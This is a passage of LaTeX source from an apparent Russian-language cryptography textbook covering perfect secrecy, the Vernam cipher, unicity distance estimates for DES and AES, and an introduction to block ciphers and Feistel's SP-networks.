%    \item Легальный пользователь $B$ получает от $A$ секретный ключ $k \in K$.
 %   \item $B$ по принятому шифрованному сообщению $c \in C$ и известному ключу $k$ вычисляет открытое сообщение $m = D_k(c) \in M$.
%\end{itemize}

%Основное требование: при выбранном ключе $k$ вычисление $m$ должно быть лёгкой задачей для любого $c$. С другой стороны, при неизвестном ключе $k$ вычисление открытого сообщения $m$ по известному шифрованному сообщению $c$ должно быть трудной задачей для любого $c$.

%Криптостойкость шифра оценивается числом операций, необходимым для определения: открытого текста $m$ по шифротексту $c$, либо ключа шифрования $k$ по открытому тексту $m$ и шифротексту $c$.

%$M, C, K$ интерпретируются как случайные величины.
%Пусть заданы распределения вероятностей $P_m(M), P_c(C), P_k(K)$. По определению шифрование $C = E_K(M)$ -- детерминированная функция своих аргументов.
%Если при выбранном шифре оказалось, что открытый текст $M$ и шифротекст $C$ -- статистически независимые случайные величины, то считается, что такая система обладает совершенной криптостойкостью.


%\subsection{Длина ключа}

%Пусть сообщения $m\in M$ и ключи $r\in K$ являются независимыми случайными величинами. Это значит, что их совместная вероятность $P_{mk}(M, K)$ равна произведению отдельных вероятностей:
%\[P_{mk}(M, K) = P_m(M) \cdot P_k(K).\]
%Пусть $C = E_K(M)$ -- множество шифрованных текстов, $M = D_K(C)$ -- множество расшифрованных текстов. Можно найти вероятности $P_c(C), P_{mck}(M,C,K)$.

%Используя известные соотношения о безусловной и условной энтропии~\cite{GabPil:2007}, оценим энтропию открытых текстов $M$ с учётом статистической независимости $M$ и $C$:
 %   \[ H(M) = H(M | C) \leq H(MK | C) = H(K | C) + H(M | CK) = \]     \[ = H(K | C) \leq H(K). \]

%Так как энтропия открытого текста при заданном шифротексте и известном ключе равна нулю, то $H(M|CK)=0$. В результате получаем     \[ H(M) \leq H(K). \]

Обозначим длины сообщений и ключа как $L(M)$ и $L(K)$ соответственно. Известно, что $H(M) \leq L(M)$~\cite{GabPil:2007}. Равенство $H(M) = L(M)$ достигается, когда сообщения состоят из статистически независимых и равновероятных символов. Такое же свойство выполняется и для случайных ключей $H(K) \leq L(K)$. Таким образом, достаточным условием совершенной криптостойкости системы можно считать неравенство
 \[ L(M) \leq L(K)\]
при случайном выборе ключа.

%С другой стороны, энтропия открытого текста $H(M)$ характеризует длину последовательности для описания случайной величины $M$ (открытого сообщения), а $H(K)$ характеризует длину последовательности для описания ключа. Следовательно, совершенная криптостойкость возможна только тогда, когда длина ключа не меньше, чем длина шифруемого сообщения, то есть
%\[
%H(M) \leq H(K).
%\]
%Как правило, длина сообщения заранее неизвестна и ограничена большим числом. Выбрать ключ длины не меньшей, чем возможное сообщение не представляется возможным или рациональным, и один и тот же ключ (или его преобразования) используется многократно для шифрования блоков сообщения фиксированной длины. То есть, $H(K) \ll H(M)$.

На самом деле, сообщение может иметь произвольную (заранее не ограниченную) длину. Поэтому генерация и главным образом доставка легальным пользователям случайного и достаточно длинного ключа становятся критическими проблемами. Практическим решением этих проблем является многократное использование одного и того же ключа при условии, что его длина гарантирует вычислительную невозможность любой известной атаки на подбор ключа.

\index{криптостойкость!совершенная|)}

\section{Криптосистема Вернама}\index{криптосистема!Вернама|(}

Приведём пример системы с совершенной криптостойкостью.

Пусть сообщение представлено двоичной последовательностью длины $N$:
    \[ m = (m_1, m_2, \dots, m_N). \]
Распределение вероятностей сообщений $P_m(m)$ может быть любым. Ключ также представлен двоичной последовательностью $ k = (k_1, k_2, \dots, k_N)$ той же длины, но с равномерным распределением
    \[ P_k(k) = \frac{1}{2^N} \]
для всех ключей.

Шифрование в криптосистеме Вернама осуществляется путём покомпонентного суммирования по модулю алфавита последовательностей открытого текста и ключа:
    \[ C = M \oplus K = (m_1 \oplus k_1, ~ m_2 \oplus k_2, \dots, m_N \oplus k_N). \]

Легальный пользователь знает ключ и осуществляет расшифрование:
    \[ M =C \oplus K = (m_1 \oplus k_1, ~ m_2 \oplus k_2, \dots, m_N \oplus k_N). \]

Найдём вероятностное распределение $N$-блоков шифротекстов, используя формулу
    \[ P(c = a) = P(m \oplus k = a) = \sum_{m} P(m) P(m \oplus k = a | m) = \]
    \[ = \sum_{m} P(m) P(k \oplus m) = \sum_{m} P(m) \frac{1}{2^N} = \frac{1}{2^N}. \]

Получили подтверждение известного факта: сумма двух случайных величин, одна из которых имеет равномерное распределение, является случайной величиной с равномерным распределением. В нашем случае распределение ключей равномерное, поэтому распределение шифротекстов тоже равномерное.

Запишем совместное распределение открытых текстов и шифротекстов:
    \[ P(m = a, c = b) ~=~ P(m = a) ~ P(c = b | m = a). \]

Найдём условное распределение:
    \[ P(c = b | m = a) ~=~ P(m \oplus k = b | m = a) ~= \]
    \[ =~ P(k = b \oplus a | m = a) ~=~ P(k = b \oplus a) ~=~ \frac{1}{2^N}, \]
так как ключ и открытый текст являются независимыми случайными величинами. Итого:
    \[ P(c=b | m=a) = \frac{1}{2^N}. \]

Подстановка правой части этой формулы в формулу для совместного распределения даёт
    \[ P(m=a,c=b)=P(m=a)\frac{1}{2^N}, \]
что доказывает независимость шифротекстов и открытых текстов в этой системе. По доказанному выше, количество информации в шифротексте относительно открытого текста равно нулю. Это значит, что рассмотренная криптосистема Вернама обладает совершенной секретностью (криптостойкостью) при условии, что для каждого $N$-блока (сообщения) генерируется случайный (одноразовый) $N$-ключ.

\index{криптосистема!Вернама|)}

\section{Расстояние единственности}\label{section_unicity_distance}\index{расстояние единственности}
\selectlanguage{russian}
\index{расстояние единственности}

Использование ключей с длиной, сопоставимой с размером текста, имеет смысл только в очень редких случаях, когда есть возможность предварительно обменяться ключевой информацией большого объёма, много большего, чем планируемый объём передаваемой информации. Но в большинстве случаев использование абсолютно надёжных систем оказывается неэффективным как с экономической, так и с практической точек зрения. Если двум сторонам нужно постоянно обмениваться большим объёмом информации, и они смогли найти надёжный канал для передачи ключа, то ничего не мешает воспользоваться этим же каналом для передачи самой информации сопоставимого объёма.

В подавляющем большинстве криптосистем размер ключа много меньше размера открытого текста, который нужно передать. Попробуем оценить теоретическую надёжность подобных систем, исходя из статистических теоретико-информационных соображений.

В реальной ситуации длина ключа может быть много меньше длины открытого текста, поскольку передача ключа при больших объёмах текста будет затруднена большим объёмом ключа. Это означает, что энтропия ключа\index{энтропия!ключа} может быть много меньше энтропии открытого текста\index{энтропия!открытого текста}: $H(K) \ll H(M)$. Для таких ситуаций важным понятием является \textbf{расстояние единственности}\index{расстояние единственности}, впервые предложенное в работах Клода Шеннона~\cite{Golomb:2002, Schneier:2011}.

\begin{definition}\label{definition:unicity_distance}
\textbf{Расстоянием единственности}\index{расстояние единственности} называется количество символов шифротекста, которое необходимо для однозначного восстановления открытого текста.
\end{definition}

Пусть зашифрованное сообщение (шифротекст) $C$ состоит из $N$ символов $L$-буквенного алфавита:
	\[C = (C_1, C_2, \dots, C_N).\]

Определим функцию $h(n)$ как условную энтропию\index{энтропия!условная} ключа при перехвате криптоаналитиком $n$ символов шифротекста:
\[ \begin{array}{l}
    h ( 0 ) = H(K), \\
    h ( 1 ) = H(K | C_1), \\
    h ( 2 ) = H(K | C_1 C_2), \\
    \dots \\
    h ( n ) = H(K | C_1 C_2 \dots C_n), \\
    \dots
\end{array} \]

Функция $h(n)$ называется \emph{функцией неопределённости ключа}\index{функция!неопределённости ключа}. Она является невозрастающей функцией числа перехваченных символов $n$. Если для некоторого значения $n_u$ окажется, что $h ( n_u ) = 0$, то это будет означать, что ключ $K$ является детерминированной функцией первых $n_u$ символов шифротекста $C_1, C_2, \dots, C_{n_u}$, и при неограниченных вычислительных возможностях используемый ключ $K$ может быть определён. Число $n_u$ и будет являться \emph{расстоянием единственности}. Полученное $n_u$ соответствует определению~\ref{definition:unicity_distance}, так как для корректной криптосистемы однозначное определение ключа также означает и возможность получить открытый текст однозначным способом.

Найдём типичное поведение функции $h(n)$ и значение расстояния единственности $n_u$. Используем следующие предположения.
\begin{itemize}
    \item Криптограф всегда стремится спроектировать систему таким образом, чтобы символы шифрованного текста имели равномерное распределение и, следовательно, энтропия шифротекста\index{энтропия!шифротекста} имела максимальное значение:
            \[ H(C_1 C_2 \dots C_n) \approx n \log_2 L, ~ n = 1, 2, \dots, N. \]
    \item Имеет место соотношение
            \[ H(C | K) = H(C_1 C_2 \dots C_N | K)  =  H(M), \]
        которое следует из цепочки равенств
            \[ H(MCK) = H(M) + H(K | M) + H(C | MK) = H(M) + H(K), \]
        так как
            \[ H(K | M) = H(K), ~~ H(C | MK) = 0, \]
            \[H(MCK) = H(K) + H(C | K) + H(M | CK) = H(K) + H(C | K), \]
        поскольку
            \[ H(M | CK) = 0. \]
    \item Предполагается, что для любого $n \le N$ приближённо выполняется соотношение
        \[ H(C_n | K) \approx \frac{1}{N} H(M), \]
        \[ H(C_1 C_2\dots C_n | K) \approx \frac{n}{N} H(M). \]
\end{itemize}

Вычислим энтропию $H(C_1 C_2 \dots C_n ; K)$ двумя способами:
    \[ H( C_1 C_2 \dots C_n ; K ) = H(C_1 C_2 \dots C_n) + H(K | C_1 C_2 \dots C_n) \approx \]
        \[ \approx n \log_2 L + h(n), \]
    \[ H( C_1 C_2 \dots C_n ; K ) = H(K) + H(C_1 C_2 \dots C_n | K) \approx \]
        \[ \approx H(K) + \frac{n}{N} H(M). \]

Отсюда следует, что
    \[ h(n) \approx H(K) + n \left( \frac{H(M)}{N} - \log_2 L \right) \]
и
    \[ n_u = \frac{H(K)}{ \left( 1 - \frac{H(M)}{N \log_2 L} \right) \log_2 L} = \frac{H(K)}{\rho \log_2 L}. \]
Здесь
    \[ \rho = 1 - \frac{H(M)}{N \log_2 L} \]
означает избыточность источника открытых текстов\index{избыточность!открытого текста}.

Если избыточность источника измеряется в битах на символ, а ключ шифрования выбирается случайным образом из всего множества ключей $\{0, 1\}^{l_K}$, где $l_K$ -- длина ключа в битах, то расстояние единственности $n$ тоже получается в битах, и формула значительно упрощается:

\begin{equation}\label{eq:unicity_distance_simple_frac}
n_u \approx \frac{l_K}{\rho}.
\end{equation}

Взяв нижнюю границу $H(M)$ энтропии\index{энтропия!открытого текста} одного символа английского текста как $1{,}3$ бит/символ~\cite{Shannon:1951, Schneier:2002}, получим:

	\[ \rho _{en} \approx 1 - \frac{ 1{,}3 }{ \log _2 {26} } \approx 0{,}72.\]

Для русского текста с энтропией $H(M)$, примерно равной $3{,}01$ бит/символ~\cite{Lebedev:1958}\footnote{Следует отметить, что для английского текста значение $1{,}3$ представляет собой суммарную оценку для всего текста, в то время как оценка $3{,}01$ для русского текста получена Лебедевым и Гармашем из анализа \textbf{частот трёхбуквенных сочетаний} в отрывке текста Л. Н. Толстого <<Война и мир>> длиной в 30 тыс. символов. Соответствующая оценка для английского текста, также приведённая в работе Шеннона, примерно равна $3{,}0$.}, получаем:

	\[ \rho _{ru} \approx 1 - \frac{ 3{,}0 }{ \log _2 {32} } \approx 0{,}40.\]

Однако если предположить, что текст передаётся в формате простого текстового файла (\langen{plain text}) в стандартной кодировке UTF-8 (один байт на английский символ и два ~--- на кириллицу), то значения избыточности становятся примерно равны $0{,}83$ для английского и $0{,}81$ для русского языков:

	\[ \rho _{en, UTF-8} \approx 1 - \frac{ 1{,}3 }{ \log _2 {2^{8}} } \approx 0{,}83,\]
	\[ \rho _{ru, UTF-8} \approx 1 - \frac{ 3{,}0 }{ \log _2 {2^{16}} } \approx 0{,}81.\]

Подставляя полученные числа в выражение~\ref{eq:unicity_distance_simple_frac} для шифров DES\index{шифр!DES} и AES\index{шифр!AES}, получаем таблицу~\ref{table:unicity_distances}.

\begin{table}[!ht]
	\centering
		\begin{tabular}{|| l | r | r ||}
			\hline
			\hline
			\text{Блочный шифр} & \text{Английский текст} & \text{Русский текст} \\
			\hline
			\hline
			\text{Шифр DES\index{шифр!DES},} & \text{ $\approx~67$ бит;} & \text{$\approx~69$ бит;} \\
			\text{ключ 56 бит} & \text{ 2 блока данных} & \text{2 блока данных} \\
			\hline
			\text{Шифр AES\index{шифр!AES},} & \text{ $\approx~153$ бит;} & \text{$\approx~158$ бит;} \\
			\text{ключ 128 бит} & \text{ 3 блока данных} & \text{3 блока данных} \\
			\hline
			\hline
		\end{tabular}
  \caption{Расстояния единственности для шифров DES\index{шифр!DES} и AES\index{шифр!AES} для английского и русского текстов в формате простого текстового файла и кодировке UTF-8}
	\label{table:unicity_distances}
\end{table}

Полученные данные с теоретической точки зрения означают, что, когда криптоаналитик будет подбирать ключ к зашифрованным данным, трёх блоков данных ему будет достаточно, чтобы сделать вывод о правильности выбора ключа расшифрования и корректности дешифровки, если известно, что в качестве открытого текста выступает простой текстовый файл. Если открытым текстом является случайный набор данных, то криптоаналитик не сможет отличить правильно расшифрованный набор данных от неправильного, и расстояние единственности, в соответствии с выводами выше (для нулевой избыточности источника), оказывается равным бесконечности.

Улучшить ситуацию для легального пользователя помогает предварительное сжатие открытого текста с помощью алгоритмов архивации, что уменьшает его избыточность\index{избыточность!открытого текста} (а также уменьшает размер и ускоряет процесс шифрования в целом). Однако расстояние единственности не становится бесконечным, так как в результате работы алгоритмов архивации присутствуют различные константные сигнатуры, а для многих текстов можно заранее предсказать примерные словари сжатия, которые будут записаны как часть открытого текста. Более того, используемые на практике программы безопасной передачи данных вынуждены, так или иначе, встраивать механизмы хотя бы частичной быстрой проверки правильности ключа расшифрования (например, добавлением известной сигнатуры в начало открытого текста). Делается это для того, чтобы сообщить легальному получателю об ошибке ввода ключа, если такая ошибка случится.

Соображения выше показывают, что для одного ключа расшифрования, так или иначе, процедура проверки его корректности является быстрой. Чтобы значительно усложнить работу криптоаналитику, множество ключей, которые требуется перебрать, должно быть большой величиной (например, от $2^{80}$). Это можно сделать, во-первых, увеличением битовой длины ключа, во-вторых, аккуратной разработкой алгоритма шифрования, чтобы криптоаналитик не смог <<отбросить>> часть ключей без их полной проверки.

Несмотря на то, что теоретический вывод о совершенной криптостойкости для практики неприемлем, так как требует большого объёма ключа, сравнимого с объёмом открытого текста, разработанные идеи находят успешное применение в современных криптосистемах. Вытекающий из идей Шеннона принцип выравнивания апостериорного распределения символов в шифротекстах используется в современных криптосистемах с помощью многократных итераций (раундов), включающих замены и перестановки.



\chapter{Блочные шифры}\label{chapter-block-ciphers}\index{шифр!блочный|(}

\section{Введение и классификация}\label{section-block-ciphers-intro}
\selectlanguage{russian}

Блочные шифры являются основой современной криптографии. Многие криптографические примитивы -- криптографически стойкие генераторы псевдослучайной последовательности (см. главу~\ref{section-crypto-random}), криптографические функции хэширования (см. главу~\ref{chapter-hash-functions}) -- так или иначе основаны на блочных шифрах. А использование медленной криптографии с открытым ключом было бы невозможно по практическим соображениям без быстрых блочных шифров.

Блочные шифры можно рассматривать как функцию преобразования строки фиксированной длины в строку аналогичной длины\footnote{В случае использования недетерминированных алгоритмов, дающих новый результат при каждом шифровании, длина выхода будет больше. Меньше длина выхода быть не может, так как будет невозможно однозначно восстановить произвольное сообщение.} с использованием некоторого ключа, а также соответствующую ей функцию расшифрования:
\[\begin{array}{l}
	C = E_K\left( M \right), \\
	M'= D_K\left( C \right).
\end{array}\]

Данные функции необходимо дополнить требованиями корректности, производительности и надёжности. Во-первых, функция расшифрования должна однозначно восстанавливать произвольное исходное сообщение:

\[ \forall k \in \group{K}, m \in \group{M} \hookrightarrow D_k \left( E_k\left( m \right) \right) = m. \]

Во-вторых, функции шифрования и расшифрования должны быстро выполняться легальными пользователями (знающими ключ). В-третьих, должно быть невозможно найти открытый текст сообщения по шифртексту без знания ключа, кроме как полным перебором всех возможных ключей расшифрования. Также, что менее очевидно, надёжная функция блочного шифра не должна давать возможность найти ключ шифрования (расшифрования), даже если злоумышленнику известны пары открытого текста и шифртекста. Последнее свойство защищает от атак на основе известного открытого текста\index{атака!с известным открытым текстом} и на основе известного шифртекста\index{атака!с известным шифртекстом}, а также активно используется при построении криптографических функций хэширования в конструкции Миагучи~---~Пренеля\index{конструкция!Миагучи~---~Пренеля}. То есть:
\begin{itemize}
	\item $C = f \left( M, K \right)$ и $M = f \left( C, K \right)$ должны вычисляться быстро (легальные операции);
	\item $M = f \left( C \right)$ и $C = f \left( M \right)$ должны вычисляться не быстрее, чем $\left| \group{K} \right|$ операций расшифрования (шифрования) при условии, что злоумышленник может отличить корректное сообщение (см. выводы к разделу~\ref{section_unicity_distance});
	\item $K = f \left( M, C \right)$ должно вычисляться не быстрее, чем $\left| \group{K} \right|$ операций шифрования.
\end{itemize}

Если размер ключа достаточно большой (от 128-ми бит и выше), то функцию блочного шифрования, удовлетворяющую указанным выше условиям, можно называть надёжной.

Блочные шифры делят на два больших класса по методу построения:
\begin{itemize}
	\item Шифры, построенные на SP-сетях (сети замены-пере\-становки). Такие шифры основаны на \emph{обратимых} преобразованиях с открытым текстом. При их разработке криптограф должен следить за тем, чтобы каждая из производимых операций была и криптографически надёжна, и обратима при знании ключа.
	\item Шифры, в той или иной степени, построенные на ячейке Фейстеля\index{ячейка Фейстеля}. В данных шифрах используется конструкция под названием <<ячейка Фейстеля>>, которая по методу построения уже обеспечивает обратимость операции шифрования легальным пользователем при знании ключа. Криптографу при разработке функции шифрования остаётся сосредоточиться на надёжности конструкции.
\end{itemize}

Все современные блочные шифры являются \emph{раундовыми} (см. рис.~\ref{fig:block-cipher}). То есть блок текста проходит через несколько одинаковых (или похожих) преобразований, называемых \emph{раундами шифрования}. У~функции шифрования также могут существовать начальный и завершающий раунды, отличающиеся от остальных (обычно -- отсутствием некоторых преобразований, которые не имеют смысла для <<крайних>> раундов).

\begin{figure}[!t]
	\centering
	\includegraphics[width=1\textwidth]{pic/block-cipher}
  \caption{Общая структура раундового блочного шифра. С помощью функции ключевого расписания из ключа $K$ получается набор раундовых ключей $K1, K2, \dots$. Открытый текст $M$ разбивается на блоки $M1, M2, \dots$, каждый из которых проходит несколько раундов шифрования, используя соответствующие раундовые ключи. Результаты последних раундов шифрования каждого из блоков объединяются в шифртекст $C$ с помощью одного из режимов сцепления блоков}
  \label{fig:block-cipher}
\end{figure}

Аргументами каждого раунда являются результаты предыдущего раунда (для самого первого -- часть открытого текста) и \emph{раундовый ключ}\index{ключ!раундовый}. Раундовые ключи получаются из оригинального ключа шифрования с помощью процедуры, получившей название алгоритма \emph{ключевого расписания}\index{ключевое расписание} (также встречаются названия <<расписание ключей>>, <<процедура расширения ключа>> и~др.; \langen{key schedule}). Функция ключевого расписания является важной частью блочного шифра. На потенциальной слабости этой функции основаны такие криптографические атаки, как атака на основе связанных ключей\index{атака!на связанных ключах} и атака скольжения\index{атака!скольжения}.

После прохождения всех раундов шифрования блоки $C1$, $C2$,~$\dots$ объединяются в шифртекст $C$ с помощью одного из режимов сцепления блоков (см. раздел~\ref{section-block-chaining}). Простейшим примером режима сцепления блоков является режим электронной кодовой книги\index{режим!электронной кодовой книги}, когда блоки $C1$, $C2$,~$\dots$ просто конкатенируются в шифртекст $C$ без дополнительной обработки.

К числовым характеристикам блочного шифра относят:
\begin{itemize}
	\item размер входного и выходного блоков,
	\item размер ключа шифрования,
	\item количество раундов.
\end{itemize}

Также надёжные блочные шифры обладают \emph{лавинным эффектом}\index{лавинный эффект} (\langen{avalanche effect}): изменение одного бита в блоке открытого текста или ключа приводит к полному изменению соответствующего блока шифртекста.


\section{SP-сети. Проект «Люцифер»}\label{section-project-lucifer}\index{шифр!«Люцифер»}
\selectlanguage{russian}

В 1973 году в "Scientific American" появляется статья сотрудника IBM (а ранее -- ВМС США) Хорста Фейстеля (\langen{Horst Feistel}) <<Cryptography and Computer Privacy>>~\cite{Feistel:1973}, описывающая проект функции шифрования <<Люцифер>>, который можно считать прообразом современных блочных шифров. Развитием данной системы стал государственный стандарт США <<Digital Encryption Standard>> с 1979 по 2001 годы.

\begin{figure}[!t]
    \centering
    \subfloat[S-блок. На вход поступает 3 бита информации, которые трактуются как двоичное представление номера одной из $2^3$ линий внутреннего P-блока. На выходе номер активной сигнальной дорожки обратно преобразуется в 3-битовое представление]{\label{fig:s-box-inside} 
\includegraphics[width=0.66\textwidth]{pic/s-box-inside}}
    ~~~
    \subfloat[P-блок. Все поступающие на вход биты не меняются, но перемешиваются внутри блока]{\label{fig:p-box-inside} 
\includegraphics[width=0.25\textwidth]{pic/p-box-inside}}
		\caption{Возможные реализации S- и P-блоков}
\end{figure}

Фейстель высказывает идею, что идеальный шифр для блока размером в 128 бит должен включать в себя блок замен (substitution box, S-box, далее S-блок), который мог бы обработать сразу 128 бит входного блока данных. Блок замен принимает на вход блок бит и даёт на выходе другой блок бит (возможно, даже другого размера) согласно некоторому словарю или результату вычисления нелинейной функции\footnote{Нелинейная функция в целях производительности также может быть технологически реализована в виде выборки уже вычисленного значения по аргументу из словаря.}. К сожалению, физическая реализация (см. рис.~\ref{fig:s-box-inside}) действительно произвольного блока замен для входа в 128 бит потребовала бы $2^{128}$ внутренних соединений, либо словаря из $2^{128}$ 128-битовых значений, если реализовывать программным способом, что технологически невозможно\footnote{Причём в шифре таких блоков должно быть столько же, сколько разных ключей мог бы иметь шифр.}. Зато если такой блок можно было бы создать, то он был бы очень хорош с криптографической точки зрения. Даже если криптоаналитик знает произвольное число пар значений вход-выход, это ничего не скажет ему об остальном множестве значений. То есть без полного перебора всех возможных $2^{128}$ вариантов входа криптоаналитик не сможет составить полное представление о внутренней структуре блока.

С другой стороны, блок перестановок (permutation box, P-box, далее P-блок), как изображённый на рис.~\ref{fig:p-box-inside}, может обрабатывать блоки битов любого размера. Однако какая-либо криптографическая стойкость у него отсутствует: он представляет собой тривиальное линейное преобразование своего входа. Криптоаналитику достаточно иметь $N$ линейно независимых пар значений входа и выхода (где $N$ -- размер блока), чтобы получить полное представление о структуре P-блока.

Идея Фейстеля состояла в том, чтобы комбинировать S- и P-блоки, позволяя на практике получить большой блок нелинейных преобразований (т.~е. один большой S-блок), как изображено на рис.~\ref{fig:sp-network}. При достаточном числе <<слоёв>> SP-сеть начинает обладать свойствами хорошего S-блока (сложность криптографического анализа и выявления структуры), при этом оставаясь технологически простой в реализации.

\begin{figure}[htb]
	\centering
